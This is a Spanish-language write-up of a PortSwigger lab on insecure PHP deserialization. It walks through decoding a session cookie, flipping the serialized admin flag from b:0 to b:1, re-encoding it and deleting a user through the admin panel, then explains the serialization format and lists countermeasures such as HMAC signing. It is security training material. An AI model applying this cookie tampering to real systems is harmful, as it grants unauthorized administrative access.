

# Writeup: Modifying serialized objects (PortSwigger)

- **Lab**: Modifying serialized objects
- **URL**: https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects
- **Categoría**: Insecure Deserialization / PHP serialization / Privilege escalation via cookie tampering
- **Dificultad**: Apprentice

---

## 1. Objetivo

La aplicación guarda la sesión del usuario en una cookie que contiene un objeto PHP serializado. El objeto incluye el atributo `admin: bool`. Hay que cambiarlo de `false` a `true` y reusar la cookie modificada para acceder al panel admin y eliminar a `carlos`.

Credenciales: `wiener:peter`.

Cookie original (URL-encoded base64):

```
session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
```

URL-decode → base64-decode revela el objeto PHP serializado:

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

Cambiar `b:0` por `b:1`, re-encodear (base64 + URL-encode), reusar como cookie. Acceder a `/admin/delete?username=carlos`. Lab solved.

### Insight central

**El formato PHP serialization tiene length fields explícitos para strings (`s:N:"..."`) pero no para booleans (`b:0`/`b:1`)**. Cambiar un boolean es la modificación más segura: ningún length se descalibra. Si hubiera que cambiar el username de `wiener` (6 chars) a `administrator` (13 chars), habría que actualizar el `s:6:` a `s:13:` también — sino el deserializer falla. La asimetría boolean (no-length) vs string (length) hace que este lab sea trivial.

---

## 2. Recon y resolución

### 2.1 Login + capture de cookie

POST a `/login` con `username=wiener&password=peter`. Response trae:

```http
Set-Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d; Secure; HttpOnly; SameSite=None
```

El `%3d` al final es URL-encode de `=`, signal de padding base64.

### 2.2 Decodificación con Burp Decoder

Pasos en Burp Decoder (sirve también CyberChef o `python3 -c`):

1. Pegar valor de la cookie: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d`
2. **Decode as URL** → `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=`
3. **Decode as Base64** → `O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}`

Estructura del objeto:
- `O:4:"User"` — Object de clase `User` (nombre de 4 chars).
- `:2:{...}` — 2 propiedades en el objeto.
- `s:8:"username";s:6:"wiener";` — propiedad `username` (clave de 8 chars) con valor `wiener` (6 chars).
- `s:5:"admin";b:0;` — propiedad `admin` (clave de 5 chars) con valor boolean `false` (codificado como `b:0`).

### 2.3 Modificación

Cambiar `b:0` a `b:1` en el plaintext:

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```

Length total no cambia (1 char por 1 char). Ningún length field interno necesita ajuste.

### 2.4 Re-encodificación

1. **Encode as Base64** del plaintext modificado → `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=`
2. **Encode as URL** del `=` final → `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3d`

(En la práctica Burp Repeater envía bien el `=` sin URL-encode, pero PHP-side espera el formato original con `%3d` para parsear consistentemente.)

### 2.5 Acceso al admin panel

Reload `/my-account` con la cookie modificada — la session ahora identifica al user como admin. Visitar `/admin`:

```html
<h1>Users</h1>
<div>wiener - <a href="/admin/delete?username=wiener">Delete</a></div>
<div>carlos - <a href="/admin/delete?username=carlos">Delete</a></div>
```

Click en delete de `carlos` → `GET /admin/delete?username=carlos` → `User deleted successfully!`. Lab solved.

---

## 3. Por qué funciona

### 3.1 PHP serialization format

PHP `serialize()` produce una representación textual del objeto/array. Sintaxis básica:

| Tipo | Format | Ejemplo |
|---|---|---|
| string | `s:<len>:"<value>";` | `s:6:"wiener";` |
| int | `i:<value>;` | `i:42;` |
| bool | `b:<0\|1>;` | `b:1;` |
| null | `N;` | `N;` |
| array | `a:<count>:{<key>;<value>;...}` | `a:2:{i:0;s:1:"a";i:1;s:1:"b";}` |
| object | `O:<class-len>:"<class>":<prop-count>:{<key>;<value>;...}` | `O:4:"User":2:{...}` |

`unserialize()` parsea este formato y reconstruye el objeto. **No verifica integridad** — si el atacante controla el input, controla el objeto reconstruido.

En este lab, el atributo `admin` se almacena como `b:0` (false). Cambiándolo a `b:1` (true) hace que `unserialize()` reconstruya un User con `admin=true`. La aplicación PHP valida `if ($user->admin) { ... }` sin re-validar el origen → privilege escalation completa.

### 3.2 Por qué no se invalida la cookie

La cookie va sin firma (sin HMAC, sin JWT, sin CSRF token). El servidor confía en que el cliente no la modifica. Pero la cookie viaja por el navegador del usuario, que es 100% controlable por el atacante.

Defensa correcta:
1. **Firmar la cookie con HMAC** (servidor genera firma, cliente no puede falsificar). Si HMAC no coincide, rechazar.
2. **Almacenar solo un session ID opaco en la cookie** (ej. UUID), y guardar el state real (admin flag) en server-side storage (Redis, DB). El cliente no puede modificar la state.
3. **JWT con firma asimétrica** (RSA/ECDSA): mismo principio que HMAC pero con keys separadas para sign/verify.

PHP `serialize()` por sí solo NO incluye firma. Hay que añadirla manualmente. Frameworks modernos (Laravel, Symfony) firman cookies por default.

### 3.3 Por qué cambiar `b:0` a `b:1` no rompe el length total

PHP serialization NO tiene un length total del objeto. Solo tiene length de cada string interno (`s:<len>:`) y count de propiedades (`O:4:"User":<2>:{...}`).

- `b:0;` y `b:1;` son ambos exactamente 4 chars. La diferencia es solo el último digit antes del `;`.
- El parser PHP lee `b:` y espera `0` o `1`. Cualquier otra cosa es error.

Si en su lugar hubiéramos modificado `s:6:"wiener"` a `s:6:"administrator"` sin actualizar el length:
- `s:6:` declara 6 chars.
- Parser lee 6 chars: `admini`.
- Después de 6 chars espera `";`.
- Lee `s` → fallo de parse → unserialize devuelve `false` o lanza warning.

Para usar `administrator` (13 chars) habría que cambiar también `s:6:` a `s:13:`. Eso es más complejo (especialmente si hay length total al inicio). Es la base del próximo lab del cluster (modifying string properties).

### 3.4 ¿Por qué `O:4:"User":2:` no se descalibra?

`O:4:` es length de class name (`User` = 4 chars), no del objeto entero. `:2:` es count de propiedades (2: username, admin), no de bytes. Cambiar el valor de admin (b:0→b:1) no modifica la cantidad de propiedades ni el class name. Por eso ese length tampoco cambia.

### 3.5 Doble encoding (base64 + URL): ¿por qué?

PHP cookies históricamente se encodeaban así por dos razones:

1. **Base64**: el output de `serialize()` contiene caracteres no-cookie-safe (`;`, `:`, `"`, `{`, `}`, etc.). Cookies según RFC 6265 deben ser ASCII-safe. Base64 garantiza que cualquier byte se representa con `[A-Za-z0-9+/=]`.
2. **URL-encoding**: el carácter `=` (padding de base64) y `+` no son cookie-safe en algunos browsers/proxies. URL-encode los convierte a `%3d` y `%2b` respectivamente.

Modernamente se usa `JSON.stringify` + signed cookies o JWT, pero apps PHP legacy aún usan este patrón.

---

## 4. Resumen



Tres ideas:

1. **PHP serialization es texto plano sin firma — el cliente puede modificar cualquier atributo si controla la cookie**. La asimetría con boolean (no length) hace este lab trivial: cambiar `b:0` a `b:1` sin recalcular nada. Es el escenario más simple de deserialization exploit y la base conceptual para los siguientes labs del cluster.
2. **El doble encoding (base64 + URL-encode) es solo cosmético**, no es defensa de seguridad. Burp Decoder y CyberChef revelan el plaintext en segundos. Cualquier defensa basada en obfuscation de la cookie cae igual de rápido — la única defensa real es firma criptográfica (HMAC, JWT) o session ID opaco con state en server-side.
3. **El bug está en confiar que el cliente no modifica la cookie**. La aplicación PHP lee `$user->admin` después de `unserialize()` y lo trata como verdad. La firma o el opaque session ID son las defensas estructurales correctas; sanitizar/validar el contenido de la cookie post-deserialize es band-aid frágil.

---

## 5. Contramedidas

1. **Firmar cookies con HMAC**: servidor genera firma con secret key, cliente no puede falsificar. Si HMAC no coincide, rechazar la cookie. PHP: `hash_hmac('sha256', $serialized, $secret)`. Defensa primaria.
2. **JWT con firma asimétrica** (RSA/ECDSA): si la firma se valida con public key, el cliente puede leer el JWT pero no falsificarlo. Estándar moderno.
3. **Session ID opaco + state server-side**: la cookie es solo un UUID. El admin flag, username, etc. viven en Redis/DB indexados por el UUID. El cliente no puede modificar nada porque la cookie no contiene state.
4. **No deserializar input controlado por el atacante**: si la app necesita state en cookie, usar formato resistente (JSON con schema validation) en lugar de PHP `serialize()`. PHP `unserialize()` puede instanciar objetos arbitrarios y disparar `__wakeup`/`__destruct` magic methods → RCE potencial en escenarios más complejos.
5. **Whitelist de classes en `unserialize()`**: PHP 7+ permite `unserialize($data, ['allowed_classes' => ['User']])`. Limita las clases que el deserializer puede instanciar — defensa contra POP chain RCE pero no contra modificación de atributos.
6. **Validación post-deserialize**: re-validar el `admin` flag contra DB en cada request crítico. Costo: query extra. No es defensa primaria pero suma capa.
7. **Logging de session anomalías**: usuarios que tenían `admin=false` y de repente acceden a `/admin` con `admin=true` sin haber sido elevados por un proceso legítimo es señal de tampering. Alertar.
8. **HttpOnly + Secure + SameSite=Strict**: no previenen tampering directo (el atacante puede modificar localmente) pero limitan exfiltración via XSS y cross-site requests.
9. **Rotación de secret keys**: si HMAC secret se filtra, todas las cookies emitidas son falsificables retroactivamente. Rotar periódicamente y manejar versioning.
10. **Frameworks modernos firman por default**: migrar de PHP raw `serialize()` a Symfony/Laravel session handlers que firman automáticamente.

---

## 6. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Modifying serialized objects*. https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects
- PortSwigger Web Security Academy. (s.f.). *Insecure deserialization*. https://portswigger.net/web-security/deserialization
- PHP Manual. (s.f.). *PHP Serialize Function*. https://www.php.net/manual/en/function.serialize.php
- PHP Manual. (s.f.). *PHP Unserialize Function*. https://www.php.net/manual/en/function.unserialize.php
- OWASP Foundation. (s.f.). *Insecure Deserialization*. https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data
- OWASP Foundation. (2021). *OWASP Top 10 A08: Software and Data Integrity Failures*. https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/
- MITRE Corporation. (2024). *CWE-502: Deserialization of Untrusted Data*. https://cwe.mitre.org/data/definitions/502.html
- MITRE Corporation. (2024). *ATT&CK Technique T1190: Exploit Public-Facing Application*. https://attack.mitre.org/techniques/T1190/
- swisskyrepo. (s.f.). *PayloadsAllTheThings — Insecure Deserialization*. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization
- IETF. (2011). *RFC 6265: HTTP State Management Mechanism (Cookies)*. https://datatracker.ietf.org/doc/html/rfc6265
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 11 (Attacking Application Logic).
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-deserialization.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-deserialization.md), [`inventario/04-explotacion/web/explotacion-deserialization.md`](../../../inventario/04-explotacion/web/explotacion-deserialization.md)
